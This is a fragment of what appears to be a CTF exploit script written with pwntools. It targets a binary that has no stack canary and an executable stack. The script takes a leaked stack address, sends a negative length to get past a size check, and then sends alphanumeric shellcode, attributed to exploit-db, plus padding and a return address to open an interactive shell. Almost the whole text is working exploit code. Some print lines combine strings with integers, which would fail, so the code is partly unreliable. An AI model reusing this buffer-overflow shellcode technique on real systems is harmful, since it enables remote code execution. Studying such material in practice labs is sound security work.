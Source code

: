 ```python
commands
p/c $rdi
continue
end
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX disabled
# PIE:      PIE enabled
# RWX:      Has RWX segments

io = start()

# Would you like to enroll yourself? (y/n):
io.recvuntil(b":")
io.sendline(b'y')
# Great! Here's a small welcome gift: 0x[stack address]
io.recvuntil(b'gift:')
# capture the provided address and save as a base 16 integer (hex)
addr = int(io.recvline(), 16)
# removing 96 from the address to change the address to that of the overflowable buffer
print("recvd addr: " + addr);
addr -= 96
print("addr - 96: " + addr);
# convert address to 64-bit little endian in line with checksec architecture
addr = p64(addr, endian="little")
print(addr);
# Email:
io.recvuntil(b":")
io.sendline(b'y')
# Age:
io.recvuntil(b":")
io.sendline(b'y')
# Length of name - is received as a signed integer, -1 = large number when unsigned
io.recvuntil(b":")
io.sendline(b'-1')
#shellcode from https://www.exploit-db.com/exploits/35205
shellcode = b'XXj0TYX45Pk13VX40473At1At1qu1qv1qwHcyt14yH34yhj5XVX1FK1FSH3FOPTj0X40PP4u4NZ4jWSEW18EF0V'
# enough padding to fill buffer and overwrite eip after shellcode
padding = b'A'* (104 - len(shellcode));
# concatenate shellcode, padding and address of overflowed buffer to final payload
payload = shellcode + padding + addr
print(payload);
# Provide payload as Name
io.recvuntil(b'Name: ')
io.sendline(payload);

io.interactive()
```